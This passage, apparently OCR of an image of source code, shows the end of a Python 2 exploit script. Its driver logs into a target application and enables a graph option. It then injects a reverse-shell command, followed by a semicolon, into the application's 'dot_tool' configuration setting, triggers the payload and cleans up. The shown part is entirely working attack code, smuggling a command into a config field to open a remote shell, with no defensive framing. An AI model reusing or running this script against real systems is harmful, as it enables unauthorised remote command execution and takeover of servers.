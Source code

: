            if cleaned_up == True:
                print "Successfully cleaned up"
            else:
                print "Unable to clean up configs"


    exploit = exploit()
    exploit.reset_login()
    exploit.login()
    exploit.CreateConfigOption(option="relationship_graph_enable", value="1")
    exploit.CreateConfigOption(option="dot_tool", value=exploit.ReverseShell + ';')
    exploit.TriggerExploit()
    exploit.Cleanup()
